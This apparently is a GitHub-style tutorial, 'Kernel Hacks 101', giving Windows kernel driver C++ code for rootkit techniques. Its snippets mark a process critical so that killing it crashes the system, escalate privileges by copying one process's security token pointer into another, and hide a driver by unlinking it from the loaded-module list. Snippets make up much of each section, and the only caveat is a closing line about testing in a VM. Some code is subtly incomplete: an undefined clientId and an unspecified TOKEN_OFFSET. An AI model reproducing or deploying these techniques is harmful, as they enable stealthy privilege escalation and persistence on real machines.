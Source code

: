 ---

# Kernel Hacks 101: A Quick Guide

Here, we're diving into how to make your processes essential, copy privileges, and hide drivers.

## Required Libraries

Before you start coding, make sure to include the necessary libraries for kernel-level programming in Windows:

### Libraries to Import

- **`Windows.h`**: The main header for accessing Windows API functions.
- **`ntddk.h`**: Essential for writing device drivers and accessing kernel-mode functions.
- **`ntstatus.h`**: Contains definitions for NTSTATUS codes, useful for error handling.
- **`wdm.h`**: Provides access to Windows Driver Model functions and structures.

### Importing Libraries

Here’s how you import these libraries in your driver code:

```cpp
#include <ntddk.h>      // Core DDK functions
#include <ntstatus.h>   // NTSTATUS definitions
#include <wdm.h>        // WDM functions and structures
#include <windows.h>    // Windows API functions
```

## Make a Process Essential

### Objective

You want to make a process essential so that if it gets terminated, the system triggers a BSOD (Blue Screen of Death). This is done by using the `ZwSetInformationProcess` function.

### Function Explanation: `ZwSetInformationProcess`

- **Parameters**:
  - `hProcess`: A handle to the process you want to modify (obtained via `ZwOpenProcess`).
  - `ProcessBreakOnTermination`: An information class that specifies the information to set (this makes the process critical).
  - `BreakOnTermination`: A pointer to the value you want to set (typically `1` to enable the feature).
  - `sizeof(BreakOnTermination)`: Size of the data being sent.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS MakeProcessEssential(DWORD PID) {
    NTSTATUS status;
    HANDLE hProcess;
    ULONG BreakOnTermination = 1;

    // Open the process to get a handle
    status = ZwOpenProcess(&hProcess, PROCESS_SET_INFORMATION, &clientId);
    // Check if opening was successful, then set the information
    if (NT_SUCCESS(status)) {
        status = ZwSetInformationProcess(hProcess, ProcessBreakOnTermination, &BreakOnTermination, sizeof(BreakOnTermination));
        ZwClose(hProcess);
    }
    return status; // Return the status of the operation
}
```

### Explanation of Code

1. **Opening the Process**: Use `ZwOpenProcess` to get a handle to the process specified by its PID.
2. **Setting the Flag**: If the handle is successfully obtained, `ZwSetInformationProcess` is called to set the "BreakOnTermination" flag.
3. **Handle Cleanup**: Always close the process handle to avoid leaks.

## Copy Privileges from One Process to Another

### Objective

You want to elevate the privileges of a target process by copying them from a source process.

### Function Explanation: `PsLookupProcessByProcessId`

- **Parameters**:
  - `ProcessId`: The ID of the process you want to look up.
  - `Process**`: A pointer that will receive the process object.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS CopyPrivileges(ULONG srcPid, ULONG destPid) {
    PEPROCESS srcProcess, destProcess;

    // Lookup the source process by its PID
    if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(srcPid), &srcProcess))) {
        // Lookup the destination process
        if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(destPid), &destProcess))) {
            // Copy the security token from source to destination
            *(UINT64*)((UINT64)destProcess + TOKEN_OFFSET) = *(UINT64*)((UINT64)srcProcess + TOKEN_OFFSET);
        }
    }
    return STATUS_SUCCESS; // Return success after copying
}
```

### Explanation of Code

1. **Process Lookup**: Use `PsLookupProcessByProcessId` to obtain pointers to both the source and destination processes.
2. **Copying the Token**: The security token from the source process is copied to the destination process, effectively elevating its privileges.

## Hide a Driver

### Objective

You want to make a driver invisible in the system's loaded drivers list.

### Function Explanation: Adjusting the Load Order List

- **Function**: Modify the linked list that maintains the loaded drivers.
- **Parameters**: 
  - `DriverObject`: A pointer to the driver object you want to hide.

### Sample Code Snippet

```cpp
VOID HideDriver(PDRIVER_OBJECT DriverObject) {
    PLDR_DATA_TABLE_ENTRY entry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    
    // Adjust the linked list to hide the driver
    entry->InLoadOrderLinks.Blink->Flink = entry->InLoadOrderLinks.Flink;
    entry->InLoadOrderLinks.Flink->Blink = entry->InLoadOrderLinks.Blink;
}
```

### Explanation of Code

1. **Get Driver Entry**: Access the driver’s data table entry through the `DriverObject`.
2. **Modify Links**: Adjust the pointers in the linked list to effectively remove the driver from the list of loaded drivers, making it hidden.

## Wrapping Up

That’s a wrap! Now you have a better understanding of how to make a process essential, copy privileges, and hide a driver. Just remember:

- **Always test in a safe environment** (like a VM).
- **Be aware of the legal implications** of kernel-level programming.
